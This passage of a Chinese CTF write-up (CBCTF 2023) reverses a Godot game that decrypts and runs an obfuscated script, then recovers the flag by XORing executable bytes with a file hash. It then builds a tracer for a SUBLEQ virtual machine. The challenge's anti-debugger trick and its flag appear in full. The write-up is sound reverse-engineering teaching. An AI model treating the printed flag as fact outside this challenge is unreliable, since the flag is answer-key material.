47, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 41, 10, 10, 102, 117, 110, 99, 32, 95, 116, 114, 97, 112, 40, 41, 58, 10, 9, 118, 97, 114, 32, 97, 32, 61, 32, 188, 52, 32, 43, 32, 52, 51, 32, 45, 32, 15, 55, 10, 9, 95, 115, 99, 111, 114, 101, 32, 61, 32, 49, 49, 52, 53, 49, 52, 32, 47, 32, 97, 10, 10, 102, 117, 110, 99, 32, 95, 103, 101, 116, 95, 115, 99, 111, 114, 101, 40, 41, 58, 10, 9, 105, 102, 32, 95, 115, 99, 111, 114, 101, 32, 94, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 32, 131, 61, 32, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 58, 10, 9, 9, 69, 110, 103, 105, 110, 101, 46, 116, 105, 109, 101, 95, 115, 99, 97, 108, 101, 32, 61, 32, 48, 10, 9, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 213, 108, 97, 121, 101, 114, 34, 41, 46, 95, 105, 115, 95, 97, 108, 105, 118, 101, 32, 61, 32, 102, 97, 108, 115, 101, 10, 9, 9, 95, 115, 99, 111, 114, 101, 32, 61, 32, 48, 10, 9, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 65, 99, 99, 101, 112, 116, 68, 105, 97, 108, 111, 103, 34, 41, 46, 118, 105, 115, 105, 98, 108, 101, 32, 61, 32, 116, 114, 117, 101, 10, 9, 114, 101, 116, 117, 114, 110, 32, 95, 115, 99, 111, 114, 101, 10, 10, 102, 117, 110, 99, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 58, 10, 9, 114, 101, 116, 117, 114, 110, 32, 40, 95, 109, 117, 108, 116, 105, 32, 45, 32, 49, 41, 32, 47, 32, 52, 46, 48, 10, 10, 102, 117, 110, 99, 32, 97, 100, 100, 95, 115, 99, 111, 114, 101, 40, 118, 97, 108, 117, 101, 32, 58, 32, 105, 110, 116, 41, 58, 10, 9, 95, 115, 99, 111, 114, 101, 32, 43, 61, 32, 102, 108, 111, 111, 114, 102, 40, 118, 97, 108, 117, 101, 32, 42, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 41, 10, 9, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 61, 32, 95, 115, 99, 111, 114, 101, 32, 94, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 10, 9, 95, 109, 117, 108, 116, 105, 32, 43, 61, 32, 52, 10, 10, 102, 117, 110, 99, 32, 95, 111, 110, 95, 103, 97, 109, 101, 95, 111, 118, 101, 114, 40, 41, 58, 10, 9, 105, 102, 32, 95, 103, 101, 116, 95, 115, 99, 111, 114, 101, 40, 41, 32, 217, 32, 50, 48, 48, 48, 48, 48, 48, 48, 48, 58, 10, 9, 9, 114, 101, 116, 117, 114, 110, 10, 9, 10, 9, 118, 97, 114, 32, 116, 95, 111, 117, 116, 32, 61, 32, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 67, 111, 110, 116, 114, 111, 108, 47, 84, 101, 120, 116, 69, 100, 105, 116, 34, 41, 10, 9, 10, 9, 102, 111, 114, 32, 95, 95, 32, 105, 110, 32, 91, 91, 40, 102, 117, 110, 99, 40, 41, 58, 69, 110, 103, 105, 110, 101, 46, 116, 105, 109, 101, 95, 115, 99, 97, 108, 101, 32, 61, 32, 48, 41, 46, 99, 97, 108, 108, 40, 41, 44, 32, 40, 102, 117, 110, 99, 40, 41, 58, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 80, 108, 97, 121, 101, 114, 34, 41, 46, 95, 105, 115, 95, 97, 108, 105, 118, 101, 32, 61, 32, 102, 97, 108, 115, 101, 41, 46, 99, 97, 108, 108, 40, 41, 44, 32, 40, 102, 117, 110, 99, 40, 111, 41, 58, 111, 46, 95, 115, 99, 111, 114, 101, 32, 61, 32, 48, 41, 46, 99, 97, 108, 108, 40, 115, 101, 108, 102, 41, 44, 32, 40, 102, 117, 110, 99, 40, 41, 58, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 65, 99, 99, 101, 112, 116, 68, 105, 97, 108, 111, 103, 34, 41, 46, 118, 105, 115, 105, 98, 108, 101, 32, 61, 32, 116, 114, 117, 101, 41, 46, 99, 97, 108, 108, 40, 41, 44, 32, 91, 93, 93, 46, 112, 111, 112, 95, 98, 97, 99, 107, 40, 41, 32, 105, 102, 32, 69, 110, 103, 105, 110, 101, 68, 101, 98, 117, 103, 103, 101, 114, 46, 105, 115, 95, 97, 99, 116, 105, 118, 101, 40, 41, 32, 101, 108, 115, 101, 32, 91, 110, 117, 108, 108, 93, 93, 46, 112, 111, 112, 95, 98, 97, 99, 107, 40, 41, 58, 10, 9, 9, 118, 97, 114, 32, 102, 105, 108, 101, 32, 61, 32, 70, 105, 108, 101, 65, 99, 99, 101, 115, 115, 46, 111, 112, 101, 110, 40, 39, 46, 47, 101, 122, 103, 97, 109, 101, 46, 101, 120, 101, 39, 44, 32, 70, 105, 108, 101, 65, 99, 99, 101, 115, 115, 46, 82, 69, 65, 68, 41, 10, 9, 9, 105, 102, 32, 102, 105, 108, 101, 32, 61, 61, 32, 110, 117, 108, 108, 58, 10, 9, 9, 9, 98, 114, 101, 97, 107, 10, 9, 9, 10, 9, 9, 102, 105, 108, 101, 46, 115, 101, 101, 107, 40, 48, 120, 53, 48, 41, 10, 9, 9, 118, 97, 114, 32, 98, 32, 61, 32, 102, 105, 108, 101, 46, 103, 101, 116, 95, 98, 117, 102, 102, 101, 114, 40, 48, 120, 50, 48, 41, 10, 9, 9, 10, 9, 9, 118, 97, 114, 32, 99, 104, 101, 99, 107, 32, 61, 32, 70, 105, 108, 101, 65, 99, 99, 101, 115, 115, 46, 103, 101, 116, 95, 109, 100, 53, 40, 39, 46, 47, 101, 122, 103, 97, 109, 101, 46, 112, 99, 107, 39, 41, 10, 9, 9, 105, 102, 32, 99, 104, 101, 99, 107, 46, 108, 101, 110, 103, 116, 104, 40, 41, 32, 61, 61, 32, 48, 58, 10, 9, 9, 9, 98, 114, 101, 97, 107, 10, 9, 9, 10, 9, 9, 118, 97, 114, 32, 99, 32, 61, 32, 99, 104, 101, 99, 107, 46, 116, 111, 95, 117, 116, 102, 56, 95, 98, 117, 102, 102, 101, 114, 40, 41, 10, 9, 9, 9, 10, 9, 9, 102, 111, 114, 32, 105, 32, 105, 110, 32, 114, 97, 110, 103, 101, 40, 51, 50, 41, 58, 10, 9, 9, 9, 98, 91, 105, 93, 32, 94, 61, 32, 99, 91, 105, 93, 10, 9, 9, 10, 9, 9, 116, 95, 111, 117, 116, 46, 116, 101, 120, 116, 32, 61, 32, 98, 46, 103, 101, 116, 95, 115, 116, 114, 105, 110, 103, 95, 102, 114, 111, 109, 95, 117, 116, 102, 56, 40, 41, 10, 9, 10, 9, 116, 95, 111, 117, 116, 46, 118, 105, 115, 105, 98, 108, 101, 32, 61, 32, 116, 114, 117, 101, 10, 9, 10, 102, 117, 110, 99, 32, 95, 111, 110, 95, 114, 101, 115, 116, 97, 114, 116, 40, 41, 58, 10, 9, 95, 115, 99, 111, 114, 101, 32, 61, 32, 48, 10, 9, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 61, 32, 95, 115, 99, 111, 114, 101, 32, 94, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 10, 9, 95, 109, 117, 108, 116, 105, 32, 61, 32, 53, 46, 48, 10, 9, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 32, 61, 32, 48, 46, 48, 10, 9, 95, 115, 99, 111, 114, 101, 95, 115, 109, 111, 111, 116, 104, 32, 61, 32, 48, 10])
var bbb = PackedByteArray([137, 18, 110, 12, 249, 84, 70, 94, 92, 69, 176, 87, 62, 122, 125, 52, 21, 41, 170, 177, 144, 213, 99, 126, 162, 196, 237, 194, 147, 149, 3, 35, 45, 109, 215, 229, 76, 93, 39, 226, 32, 160, 19, 89, 128, 79, 175, 67, 199, 186, 100, 217, 55, 59, 168, 101, 112, 31, 131, 154, 197, 239, 27, 238, 227, 120, 141, 193, 220, 203, 188, 161, 107, 49, 245, 224, 8, 61, 156, 214, 106, 209, 68, 145, 254, 252, 244, 166, 74, 216, 43, 1, 192, 198, 251, 75, 24, 7, 85, 64, 88, 73, 202, 117, 38, 165, 9, 200, 22, 81, 63, 14, 208, 58, 185, 139, 6, 222, 171, 78, 72, 242, 82, 56, 104, 134, 5, 236, 36, 179, 169, 33, 167, 65, 138, 225, 183, 187, 153, 246, 113, 231, 90, 47, 86, 140, 54, 77, 146, 2, 95, 25, 133, 172, 16, 28, 151, 195, 124, 157, 46, 253, 103, 178, 219, 132, 230, 148, 23, 48, 150, 114, 115, 127, 111, 248, 108, 255, 42, 118, 212, 191, 190, 201, 0, 105, 221, 130, 51, 4, 71, 29, 96, 189, 207, 20, 136, 228, 57, 53, 37, 17, 66, 15, 155, 223, 10, 98, 44, 26, 206, 50, 40, 80, 159, 243, 233, 60, 235, 163, 121, 182, 11, 247, 211, 184, 232, 143, 97, 129, 152, 174, 181, 250, 91, 240, 30, 218, 210, 142, 205, 83, 164, 123, 34, 116, 241, 204, 158, 102, 173, 180, 234, 119, 13, 135])

func _ready():
    for i in range(aaa.size()):
        var t = aaa[i]
        aaa[i] = bbb[t]
        var w = bbb[t]
        bbb[t] = bbb[aaa[i]]
        bbb[aaa[i]] = w
    var s = GDScript.new()
    s.source_code = aaa.get_string_from_utf8()
    s.reload()
    set_script(s)
    _ready()

func _process(delta):
    _process(delta)
    
func _physics_process(delta):
    _physics_process(delta)
```

该代码对一个加密后的字符串进行 shuffle 解密，然后执行。这里我们可以直接写出解密代码

```python
from pwn import *

aaa = [55, 65, 245, 101, 2, 50, 172, 40, 36, 228, 207, 101, 176, 206, 10, 22, 174, 110, 115, 116, 32, 6, 45, 122, 147, 133, 5, 32, 147, 32, 244, 241, 47, 79, 82, 9, 113, 200, 169, 73, 146, 100, 212, 120, 37, 48, 49, 160, 211, 249, 17, 34, 10, 10, 179, 97, 171, 32, 150, 115, 99, 111, 114, 101, 32, 58, 32, 185, 110, 116, 32, 61, 32, 48, 10, 118, 97, 114, 32, 95, 33, 103, 108, 116, 105, 32, 58, 32, 102, 108, 111, 97, 116, 32, 61, 32, 199, 46, 48, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 115, 124, 111, 253, 32, 58, 32, 102, 108, 111, 97, 116, 32, 61, 32, 48, 46, 48, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 115, 109, 111, 111, 116, 104, 32, 58, 32, 105, 110, 116, 32, 61, 32, 48, 10, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 72, 101, 220, 32, 58, 32, 105, 110, 116, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 58, 32, 105, 110, 116, 10, 10, 102, 117, 110, 99, 32, 95, 114, 101, 97, 100, 121, 40, 41, 58, 10, 106, 56, 114, 105, 110, 116, 40, 38, 104, 101, 108, 108, 111, 39, 41, 10, 9, 162, 101, 116, 95, 110, 111, 100, 101, 40, 34, 143, 114, 111, 111, 116, 47, 253, 111, 100, 101, 50, 122, 34, 41, 46, 97, 100, 100, 95, 115, 99, 111, 114, 101, 46, 99, 111, 110, 110, 101, 99, 116, 40, 115, 101, 108, 102, 46, 97, 100, 100, 95, 115, 99, 111, 114, 101, 41, 10, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 34, 41, 46, 103, 97, 109, 101, 95, 111, 118, 101, 114, 46, 99, 111, 110, 110, 101, 99, 116, 40, 115, 101, 108, 102, 46, 95, 111, 110, 95, 103, 97, 109, 101, 95, 111, 118, 101, 114, 41, 10, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 34, 41, 46, 103, 97, 109, 101, 95, 114, 101, 115, 116, 97, 114, 116, 46, 99, 111, 110, 110, 101, 99, 116, 40, 115, 101, 108, 102, 46, 95, 111, 110, 95, 114, 101, 115, 116, 97, 114, 116, 41, 10, 9, 10, 9, 114, 97, 110, 100, 111, 109, 105, 13, 101, 40, 41, 10, 9, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 32, 61, 32, 114, 97, 110, 100, 105, 40, 41, 10, 9, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 61, 32, 95, 115, 99, 111, 114, 101, 32, 7, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 10, 10, 102, 117, 110, 99, 32, 95, 112, 114, 111, 99, 101, 115, 115, 40, 100, 101, 108, 116, 97, 41, 58, 10, 9, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 32, 61, 32, 108, 101, 114, 112, 102, 40, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 208, 32, 95, 103, 101, 116, 95, 115, 99, 111, 114, 101, 40, 41, 44, 32, 48, 46, 48, 123, 41, 10, 9, 115, 101, 108, 102, 46, 116, 101, 120, 116, 32, 61, 32, 70, 79, 82, 77, 65, 84, 32, 37, 32, 234, 102, 108, 111, 111, 114, 102, 40, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 32, 90, 32, 48, 46, 49, 41, 44, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 200, 10, 10, 102, 117, 110, 99, 32, 95, 112, 104, 121, 115, 105, 99, 115, 95, 112, 114, 111, 99, 101, 115, 115, 40, 100, 101, 108, 116, 97, 41, 58, 10, 9, 95, 116, 114, 97, 112, 40, 41, 10, 9, 95, 109, 117, 108, 116, 105, 32, 61, 32, 108, 101, 114, 112, 102, 40, 95, 109, 117, 108, 116, 105, 44, 32, 53, 46, 48, 44, 32, 100, 101, 108, 116, 97, 41, 10, 9, 115, 101, 108, 102, 46, 115, 99, 97, 108, 101, 32, 61, 32, 144, 101, 99, 116, 111, 114, 50, 46, 79, 78, 69, 32, 178, 32, 40, 49, 46, 15, 32, 212, 32, 48, 46, 52, 32, 47, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 41, 10, 10, 102, 117, 110, 99, 32, 95, 116, 114, 97, 112, 40, 41, 58, 10, 9, 118, 97, 114, 32, 97, 32, 61, 32, 188, 52, 32, 43, 32, 52, 51, 32, 45, 32, 15, 55, 10, 9, 95, 115, 99, 111, 114, 101, 32, 61, 32, 49, 49, 52, 53, 49, 52, 32, 47, 32, 97, 10, 10, 102, 117, 110, 99, 32, 95, 103, 101, 116, 95, 115, 99, 111, 114, 101, 40, 41, 58, 10, 9, 105, 102, 32, 95, 115, 99, 111, 114, 101, 32, 94, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 32, 131, 61, 32, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 58, 10, 9, 9, 69, 110, 103, 105, 110, 101, 46, 116, 105, 109, 101, 95, 115, 99, 97, 108, 101, 32, 61, 32, 48, 10, 9, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 213, 108, 97, 121, 101, 114, 34, 41, 46, 95, 105, 115, 95, 97, 108, 105, 118, 101, 32, 61, 32, 102, 97, 108, 115, 101, 10, 9, 9, 95, 115, 99, 111, 114, 101, 32, 61, 32, 48, 10, 9, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 65, 99, 99, 101, 112, 116, 68, 105, 97, 108, 111, 103, 34, 41, 46, 118, 105, 115, 105, 98, 108, 101, 32, 61, 32, 116, 114, 117, 101, 10, 9, 114, 101, 116, 117, 114, 110, 32, 95, 115, 99, 111, 114, 101, 10, 10, 102, 117, 110, 99, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 58, 10, 9, 114, 101, 116, 117, 114, 110, 32, 40, 95, 109, 117, 108, 116, 105, 32, 45, 32, 49, 41, 32, 47, 32, 52, 46, 48, 10, 10, 102, 117, 110, 99, 32, 97, 100, 100, 95, 115, 99, 111, 114, 101, 40, 118, 97, 108, 117, 101, 32, 58, 32, 105, 110, 116, 41, 58, 10, 9, 95, 115, 99, 111, 114, 101, 32, 43, 61, 32, 102, 108, 111, 111, 114, 102, 40, 118, 97, 108, 117, 101, 32, 42, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 41, 10, 9, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 61, 32, 95, 115, 99, 111, 114, 101, 32, 94, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 10, 9, 95, 109, 117, 108, 116, 105, 32, 43, 61, 32, 52, 10, 10, 102, 117, 110, 99, 32, 95, 111, 110, 95, 103, 97, 109, 101, 95, 111, 118, 101, 114, 40, 41, 58, 10, 9, 105, 102, 32, 95, 103, 101, 116, 95, 115, 99, 111, 114, 101, 40, 41, 32, 217, 32, 50, 48, 48, 48, 48, 48, 48, 48, 48, 58, 10, 9, 9, 114, 101, 116, 117, 114, 110, 10, 9, 10, 9, 118, 97, 114, 32, 116, 95, 111, 117, 116, 32, 61, 32, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 67, 111, 110, 116, 114, 111, 108, 47, 84, 101, 120, 116, 69, 100, 105, 116, 34, 41, 10, 9, 10, 9, 102, 111, 114, 32, 95, 95, 32, 105, 110, 32, 91, 91, 40, 102, 117, 110, 99, 40, 41, 58, 69, 110, 103, 105, 110, 101, 46, 116, 105, 109, 101, 95, 115, 99, 97, 108, 101, 32, 61, 32, 48, 41, 46, 99, 97, 108, 108, 40, 41, 44, 32, 40, 102, 117, 110, 99, 40, 41, 58, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 80, 108, 97, 121, 101, 114, 34, 41, 46, 95, 105, 115, 95, 97, 108, 105, 118, 101, 32, 61, 32, 102, 97, 108, 115, 101, 41, 46, 99, 97, 108, 108, 40, 41, 44, 32, 40, 102, 117, 110, 99, 40, 111, 41, 58, 111, 46, 95, 115, 99, 111, 114, 101, 32, 61, 32, 48, 41, 46, 99, 97, 108, 108, 40, 115, 101, 108, 102, 41, 44, 32, 40, 102, 117, 110, 99, 40, 41, 58, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 65, 99, 99, 101, 112, 116, 68, 105, 97, 108, 111, 103, 34, 41, 46, 118, 105, 115, 105, 98, 108, 101, 32, 61, 32, 116, 114, 117, 101, 41, 46, 99, 97, 108, 108, 40, 41, 44, 32, 91, 93, 93, 46, 112, 111, 112, 95, 98, 97, 99, 107, 40, 41, 32, 105, 102, 32, 69, 110, 103, 105, 110, 101, 68, 101, 98, 117, 103, 103, 101, 114, 46, 105, 115, 95, 97, 99, 116, 105, 118, 101, 40, 41, 32, 101, 108, 115, 101, 32, 91, 110, 117, 108, 108, 93, 93, 46, 112, 111, 112, 95, 98, 97, 99, 107, 40, 41, 58, 10, 9, 9, 118, 97, 114, 32, 102, 105, 108, 101, 32, 61, 32, 70, 105, 108, 101, 65, 99, 99, 101, 115, 115, 46, 111, 112, 101, 110, 40, 39, 46, 47, 101, 122, 103, 97, 109, 101, 46, 101, 120, 101, 39, 44, 32, 70, 105, 108, 101, 65, 99, 99, 101, 115, 115, 46, 82, 69, 65, 68, 41, 10, 9, 9, 105, 102, 32, 102, 105, 108, 101, 32, 61, 61, 32, 110, 117, 108, 108, 58, 10, 9, 9, 9, 98, 114, 101, 97, 107, 10, 9, 9, 10, 9, 9, 102, 105, 108, 101, 46, 115, 101, 101, 107, 40, 48, 120, 53, 48, 41, 10, 9, 9, 118, 97, 114, 32, 98, 32, 61, 32, 102, 105, 108, 101, 46, 103, 101, 116, 95, 98, 117, 102, 102, 101, 114, 40, 48, 120, 50, 48, 41, 10, 9, 9, 10, 9, 9, 118, 97, 114, 32, 99, 104, 101, 99, 107, 32, 61, 32, 70, 105, 108, 101, 65, 99, 99, 101, 115, 115, 46, 103, 101, 116, 95, 109, 100, 53, 40, 39, 46, 47, 101, 122, 103, 97, 109, 101, 46, 112, 99, 107, 39, 41, 10, 9, 9, 105, 102, 32, 99, 104, 101, 99, 107, 46, 108, 101, 110, 103, 116, 104, 40, 41, 32, 61, 61, 32, 48, 58, 10, 9, 9, 9, 98, 114, 101, 97, 107, 10, 9, 9, 10, 9, 9, 118, 97, 114, 32, 99, 32, 61, 32, 99, 104, 101, 99, 107, 46, 116, 111, 95, 117, 116, 102, 56, 95, 98, 117, 102, 102, 101, 114, 40, 41, 10, 9, 9, 9, 10, 9, 9, 102, 111, 114, 32, 105, 32, 105, 110, 32, 114, 97, 110, 103, 101, 40, 51, 50, 41, 58, 10, 9, 9, 9, 98, 91, 105, 93, 32, 94, 61, 32, 99, 91, 105, 93, 10, 9, 9, 10, 9, 9, 116, 95, 111, 117, 116, 46, 116, 101, 120, 116, 32, 61, 32, 98, 46, 103, 101, 116, 95, 115, 116, 114, 105, 110, 103, 95, 102, 114, 111, 109, 95, 117, 116, 102, 56, 40, 41, 10, 9, 10, 9, 116, 95, 111, 117, 116, 46, 118, 105, 115, 105, 98, 108, 101, 32, 61, 32, 116, 114, 117, 101, 10, 9, 10, 102, 117, 110, 99, 32, 95, 111, 110, 95, 114, 101, 115, 116, 97, 114, 116, 40, 41, 58, 10, 9, 95, 115, 99, 111, 114, 101, 32, 61, 32, 48, 10, 9, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 61, 32, 95, 115, 99, 111, 114, 101, 32, 94, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 10, 9, 95, 109, 117, 108, 116, 105, 32, 61, 32, 53, 46, 48, 10, 9, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 32, 61, 32, 48, 46, 48, 10, 9, 95, 115, 99, 111, 114, 101, 95, 115, 109, 111, 111, 116, 104, 32, 61, 32, 48, 10]
bbb = [137, 18, 110, 12, 249, 84, 70, 94, 92, 69, 176, 87, 62, 122, 125, 52, 21, 41, 170, 177, 144, 213, 99, 126, 162, 196, 237, 194, 147, 149, 3, 35, 45, 109, 215, 229, 76, 93, 39, 226, 32, 160, 19, 89, 128, 79, 175, 67, 199, 186, 100, 217, 55, 59, 168, 101, 112, 31, 131, 154, 197, 239, 27, 238, 227, 120, 141, 193, 220, 203, 188, 161, 107, 49, 245, 224, 8, 61, 156, 214, 106, 209, 68, 145, 254, 252, 244, 166, 74, 216, 43, 1, 192, 198, 251, 75, 24, 7, 85, 64, 88, 73, 202, 117, 38, 165, 9, 200, 22, 81, 63, 14, 208, 58, 185, 139, 6, 222, 171, 78, 72, 242, 82, 56, 104, 134, 5, 236, 36, 179, 169, 33, 167, 65, 138, 225, 183, 187, 153, 246, 113, 231, 90, 47, 86, 140, 54, 77, 146, 2, 95, 25, 133, 172, 16, 28, 151, 195, 124, 157, 46, 253, 103, 178, 219, 132, 230, 148, 23, 48, 150, 114, 115, 127, 111, 248, 108, 255, 42, 118, 212, 191, 190, 201, 0, 105, 221, 130, 51, 4, 71, 29, 96, 189, 207, 20, 136, 228, 57, 53, 37, 17, 66, 15, 155, 223, 10, 98, 44, 26, 206, 50, 40, 80, 159, 243, 233, 60, 235, 163, 121, 182, 11, 247, 211, 184, 232, 143, 97, 129, 152, 174, 181, 250, 91, 240, 30, 218, 210, 142, 205, 83, 164, 123, 34, 116, 241, 204, 158, 102, 173, 180, 234, 119, 13, 135]

for i in range(len(aaa)):
    t = aaa[i]
    aaa[i] = bbb[t]
    w = bbb[t]
    bbb[t] = bbb[aaa[i]]
    bbb[aaa[i]] = w

print("".join(map(lambda x: chr(x), aaa)))
```

解密后得到以下文件：

```
extends Label

const FORMAT = "SCORE:%016d(x%01.2f)"

var _score : int = 0
var _multi : float = 5.0
var _score_show : float = 0.0
var _score_smooth : int = 0

var _score_key : int
var _score_check : int

func _ready():
    print('hello')
    get_node("/root/Node2D").add_score.connect(self.add_score)
    get_node("/root/Node2D").game_over.connect(self._on_game_over)
    get_node("/root/Node2D").game_restart.connect(self._on_restart)
    
    randomize()
    _score_key = randi()
    _score_check = _score ^ _score_key

func _process(delta):
    _score_show = lerpf(_score_show, _get_score(), 0.08)
    self.text = FORMAT % [floorf(_score_show + 0.1), _get_multi()]

func _physics_process(delta):
    _trap()
    _multi = lerpf(_multi, 5.0, delta)
    self.scale = Vector2.ONE * (1.4 - 0.4 / _get_multi())

func _trap():
    var a = 34 + 43 - 77
    _score = 114514 / a

func _get_score():
    if _score ^ _score_key != _score_check:
        Engine.time_scale = 0
        get_node("/root/Node2D/Player")._is_alive = false
        _score = 0
        get_node("/root/Node2D/AcceptDialog").visible = true
    return _score

func _get_multi():
    return (_multi - 1) / 4.0

func add_score(value : int):
    _score += floorf(value * _get_multi())
    _score_check = _score ^ _score_key
    _multi += 4

func _on_game_over():
    if _get_score() < 200000000:
        return
    
    var t_out = get_node("/root/Node2D/Control/TextEdit")
    
    for __ in [[(func():Engine.time_scale = 0).call(), (func():get_node("/root/Node2D/Player")._is_alive = false).call(), (func(o):o._score = 0).call(self), (func():get_node("/root/Node2D/AcceptDialog").visible = true).call(), []].pop_back() if EngineDebugger.is_active() else [null]].pop_back():
        var file = FileAccess.open('./ezgame.exe', FileAccess.READ)
        if file == null:
            break
        
        file.seek(0x50)
        var b = file.get_buffer(0x20)
        
        var check = FileAccess.get_md5('./ezgame.pck')
        if check.length() == 0:
            break
        
        var c = check.to_utf8_buffer()
            
        for i in range(32):
            b[i] ^= c[i]
        
        t_out.text = b.get_string_from_utf8()
    
    t_out.visible = true
    
func _on_restart():
    _score = 0
    _score_check = _score ^ _score_key
    _multi = 5.0
    _score_show = 0.0
    _score_smooth = 0
```

中间在判断游戏结束的逻辑中，分别取了 ezgame.exe 在 offset=0x50 处长度为 32 的一段字节序列，和 ezgame.pck MD5 值的 16 进制表示，将两者异或得到 flag。那么解密代码是显然的。

```python
from hashlib import md5
from pwn import *

with open("./ezgame/ezgame_attachment/ezgame.exe", "rb") as f:
    f.seek(0x50)
    cipher = list(f.read(0x20))

with open("./ezgame/ezgame_attachment/ezgame.pck", "rb") as f:
    file_md5 = list(md5(f.read()).hexdigest().encode("ascii"))

plain = map(lambda t: chr((t[1][0] ^ t[1][1]) & 0xFF), enumerate(zip(cipher, file_md5)))

success(f"{''.join(plain)}")
```

```
(pwnenv) PS D:\Workspace\rev\cbctf2023> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/cbctf2023/ezgame/decrypt.py       
[+] CBCTF{Ea5y_g0dOt_s1mpIe_game}
(pwnenv) PS D:\Workspace\rev\cbctf2023>
```

`CBCTF{Ea5y_g0dOt_s1mpIe_game}`

### TIVM-Mmmmmultiply | Done

> Repeat repeat repeat repeat repeat.

SUBLEQ 重现。套用 tracer。

```c
#define _CRT_SECURE_NO_WARNINGS

#include <stdio.h>
#include <stdbool.h>
#include <stdint.h>
#include <string.h>
#include <time.h>
#include <ctype.h>

static int g_bytecode[8192] = {0};

int main(void) {
    int pc; // esi
    int op_2; // edi
    int op_1; // eax
    int loc; // ecx
    FILE *f; // [esp+0h] [ebp-Ch] BYREF

    fopen_s(&f, "bytecode.bin", "rb");
    if (!f) {
        printf("Bad file: %s", "bytecode.bin");
        exit(0);
    }
    fread(g_bytecode, 4u, 4218u, f);
    fclose(f);

    pc = 0;
    do {
        op_2 = g_bytecode[pc + 1];
        op_1 = g_bytecode[pc];
        loc = g_bytecode[pc + 2];
        pc += 3;
        if (op_2 >= 0) {
            if (op_1 >= 0) {
                if (op_2 == op_1) {
                    fprintf(stderr, "%04d:\tZJMP\t[%d]\t\t", pc, op_1);
                } else {
                    fprintf(stderr, "%04d:\tSUBLEQ\t[%d]\t[%d]\t", pc, op_2, op_1);
                }
                if (loc != pc) {
                    fprintf(stderr, "@%d\t", loc + 3);
                } else {
                    fprintf(stderr, "\t");
                }
                g_bytecode[op_2] -= g_bytecode[op_1];
                if (g_bytecode[op_2] <= 0) {
                    fprintf(stderr, "; Taken\n");
                    pc = loc;
                } else {
                    fprintf(stderr, "; Not taken\n");
                }
            } else {
                fprintf(stderr, "%04d:\tIN\t[%d]\n", pc, op_2);
                g_bytecode[op_2] = getchar();
            }
        } else {
            fprintf(stderr, "%04d:\tOUT\t[%d]\t\t\t; %c\n", pc, op_1, isprint(g_bytecode[op_1]) ? g_bytecode[op_1] : '?');
            putchar(g_bytecode[op_1]);
        }
    } while (pc < 4216);
    return 0;
}
```

输入范围从 `[3]` 到 `[38]`。

可以观察到这次的加密算法依然基于分块，但是对每个块内的输入进行了混合。第一个分块的校验如下：

```
0386:        SUBLEQ        [382]        [4]                ; Taken
0389:        SUBLEQ        [382]        [4]                ; Taken
0392:        SUBLEQ        [382]        [4]                ; Taken
